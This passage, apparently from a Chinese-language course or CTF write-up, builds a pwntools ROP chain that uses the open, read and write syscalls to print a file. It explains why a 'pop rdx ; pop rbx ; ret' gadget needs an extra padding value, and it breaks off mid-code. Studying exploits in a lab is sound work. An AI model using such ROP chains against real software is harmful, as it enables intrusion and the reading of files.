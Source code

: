 ```python
from pwn import *

ROP = flat(
    # open(fn, 0)
    pop_rdi_ret, fn_addr,
    pop_rsi_ret, 0,
    pop_rax_ret, 2,
    syscall_ret,
    # read(3, fn, 0x30)
    pop_rdi_ret, 3,
    pop_rsi_ret, fn_addr,
    pop_rdx_ret, 0x30,
    pop_rax_ret, 0,
    syscall_ret,
    # write(1, fn, 0x30)
    pop_rdi_ret, 1,
    pop_rsi_ret, fn_addr,
    pop_rdx_ret, 0x30,
    pop_rax_ret, 1,
    syscall_ret,
)
 ```
但是這邊如果完全照著講師的方式做的話，會發現剛才在找 gadget 時根本找不到 ```pop rdx ; ret```
而講師上課 demo ROP 的範例時，有提到如果找不到 ```pop rdx ; ret``` 的話，可以改找 ```pop rdx ; pop rbx ; ret```
![](assets/2-7.png)
也就是改成
 ```python
pop_rdx_rbx_ret = 0x493a2b # cat ./out | grep "pop rdx ; pop rbx ; ret"

# read(3, fn, 0x30)
pop_rdi_ret, 3,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30,
pop_rax_ret, 0,
syscall_ret,
# write(1, fn, 0x30)
pop_rdi_ret, 1,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30,
pop_rax_ret, 1,
syscall_ret,
```
但實際測試後會發現這樣行不通，於是這邊卡了很久，不知道原因是什麼\
後來才發現 ```pop rdx ; ret``` 如果變成 ```pop rdx ; pop rbx ; ret``` 會從 stack 裡 pop 兩個東西出來\
但原本是只有 pop 一個東西 (rdx)，因此必須要在 rdx 後面再放一個東西，後面執行流程才會是對的\
於是修改成
```python
# read(3, fn, 0x30)
pop_rdi_ret, 3,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30, 0,
pop_rax_ret, 0,
syscall_ret,
# write(1, fn, 0x30)
pop_rdi_ret, 1,
pop_rsi_ret, fn_addr,
```